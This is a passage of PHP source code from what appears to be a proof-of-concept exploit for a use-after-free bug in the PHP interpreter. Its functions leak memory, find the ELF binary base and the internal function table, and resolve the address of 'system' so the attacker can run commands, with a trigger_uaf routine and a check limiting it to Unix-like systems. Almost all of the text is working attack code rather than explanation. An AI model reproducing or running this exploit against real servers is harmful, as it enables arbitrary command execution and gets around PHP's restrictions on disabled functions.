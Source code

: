```php
    }
 
    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;
 
            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;
 
            return $data_addr + $i * 8;
        }
    }
 
    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }
 
    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);
 
            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }
 
    function trigger_uaf($arg) {
        # str_shuffle prevents opcache string interning
        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }
 
    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }
 
```